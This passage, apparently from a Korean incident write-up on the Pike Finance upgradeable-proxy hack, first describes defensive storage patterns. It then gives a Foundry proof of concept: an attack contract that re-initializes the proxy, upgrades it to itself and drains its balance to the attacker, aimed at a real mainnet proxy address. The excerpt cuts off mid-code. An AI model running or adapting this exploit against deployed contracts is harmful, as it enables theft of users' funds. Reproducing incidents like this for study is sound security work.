 또한 permanent storage pattern을 이용하면 상태 변수가 덮어씌워질 걱정 없이 Logic Contract를 업그레이드할 수 있다. permanent storage pattern은 상태 변수를 별도의 Storage Contract에 저장하는 방식으로, Logic Contract는 이 Storage Contract를 참조하여 데이터를 읽고 쓴다. 이렇게 하면 Logic Contract를 업그레이드하더라도 상태 변수는 변경되지 않으며, 데이터의 일관성을 유지할 수 있다. 

이 외에도, namespaced storage layout을 활용할 수 있다. Namespaced storage layout은 각 컨트랙트가 고유의 네임스페이스를 사용하여 상태 변수를 저장하는 방식이다. 이를 통해 변수 간의 충돌을 방지하고, 각 컨트랙트의 상태 변수를 독립적으로 관리할 수 있다.

<br>

## 04. PoC를 통한 취약점 재현

foundry를 이용하여 PoC 코드를 작성할 수 있다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.15;

import {Test} from "forge-std/Test.sol";
import {console} from "forge-std/console.sol";

interface IPikeFinance {
    function initialize(address,address,address,address,uint16,uint16) external;
    function upgradeToAndCall(address,bytes memory) external;
}

contract AttackContract {
    address target;
    address owner;

    constructor(address _owner, address _target) {
        owner = _owner;
        target = _target;
    }

    function attack() public {
        // 최기화 진행
        IPikeFinance(target).initialize(address(this), address(this), address(this), address(this), 20, 20);

        // Logic Contract 업그레이드, withdraw 함수 호출
        bytes memory data = abi.encodeWithSignature("withdraw(address)", address(owner));
        IPikeFinance(target).upgradeToAndCall(address(this), data);
    }
    
    // 모든 자금을 attacker에게 보내는 함수
    function withdraw(address addr) external {
        (bool success, ) = payable(addr).call{value: address(this).balance}("");
        require(success, "transfer failed");
    }

    // 업그레이드 가능한 프록시 계약임을 표시 (proxiableUUID 반환)
    function proxiableUUID() external pure returns(bytes32){
        return 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    }

    receive() external payable {}
}

contract Exploit is Test {
    uint256 blocknum = 19771058; // Attack Tx의 Blocknum보다 1 작게
    address constant PikeFinanceProxy = 0xFC7599cfFea9De127a9f9C748CCb451a34d2F063;

    address hacker;
    AttackContract attackcontractInstance;

```